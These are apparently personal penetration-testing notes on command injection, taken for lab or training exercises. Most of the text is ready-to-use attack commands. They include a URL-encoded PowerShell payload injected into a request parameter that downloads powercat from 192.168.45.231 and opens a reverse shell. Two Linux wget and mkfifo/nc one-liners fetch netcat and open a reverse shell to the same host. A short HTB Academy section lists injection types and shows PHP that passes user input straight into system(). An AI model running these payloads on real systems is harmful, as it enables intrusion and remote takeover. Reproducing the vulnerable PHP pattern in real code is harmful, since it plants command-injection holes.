 catch request in repeater and fire that powercat with url encoded while server and listener is on!

![[Pasted image 20240427211825.png]]

```
Archive=git%3BIEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%22http%3A%2F%2F192.168.45.231%2Fpowercat.ps1%22%29%3Bpowercat%20-c%20192.168.45.231%20-p%204444%20-e%20powershell
```
MAIN PART

### is it linux?

```
http://192.168.45.231/nc;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.231 4444 >/tmp/f
```

download nc and then get reverse shell

```
wget http://192.168.45.231/nc;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.231 4444 >/tmp/f
```

again, DON'T FORGET TO ENCODE FOR LINUX!

![[Pasted image 20240427213924.png]]

![[Pasted image 20240427213943.png]]


--------------------------------------------------------------------------

----

# HTB academy

## Types

OS cmd
SQLi 
Code execution
Cross-Site Scripting/HTML Injection

**STILL there are many more**, Xpath, LDAP

### Example PHP and Node.js code
```
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
?>

```
